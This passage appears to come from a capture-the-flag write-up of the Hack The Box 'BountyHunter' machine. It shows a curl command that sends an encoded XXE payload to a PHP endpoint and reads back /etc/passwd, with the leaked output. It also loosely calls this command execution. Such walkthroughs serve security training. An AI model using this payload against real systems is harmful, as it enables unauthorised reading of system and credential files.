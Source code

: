 ![bountyhunter-burp-pencer](/assets/images/2021-09-27-21-58-14.png)

We can see the value of the entity I created has been placed in the field within the form. This proves we can execute commands via XXE, next we can grab the passwd file. Let's do it using cURL this time, like before create the payload in CyberChef, base64 and URL encode then use here:

```text
┌──(root💀kali)-[~/htb/bountyhunter]
└─# curl -X POST -d data="PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIHJlcGxhY2UgWzwhRU5USVRZIGZpbGUgU1lTVEVNICJmaWxlOi8vL2V0Yy9wYXNzd2QiPiBdPgogICAgICAgICAgICAgICAgPGJ1Z3JlcG9ydD4KICAgICAgICAgICAgICAgIDx0aXRsZT50ZXN0LXRpdGxlPC90aXRsZT4KICAgICAgICAgICAgICAgIDxjd2U%2BdGVzdC1jd2U8L2N3ZT4KICAgICAgICAgICAgICAgIDxjdnNzPnRlc3QtY3ZzczwvY3Zzcz4KICAgICAgICAgICAgICAgIDxyZXdhcmQ%2BJmZpbGU7PC9yZXdhcmQ%2BCiAgICAgICAgICAgICAgICA8L2J1Z3JlcG9ydD4%3D" http://10.10.11.100/tracker_diRbPr00f314.php

If DB were ready, would have added:
<table>
  <tr>
    <td>Title:</td>
    <td>test-title</td>
  </tr>
  <tr>
    <td>CWE:</td>
    <td>test-cwe</td>
  </tr>
  <tr>
    <td>Score:</td>
    <td>test-cvss</td>
  </tr>
  <tr>
    <td>Reward:</td>
    <td>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
<SNIP>
development:x:1000:1000:Development:/home/development:/bin/bash
<SNIP>
</td>
  </tr>
</table>
```
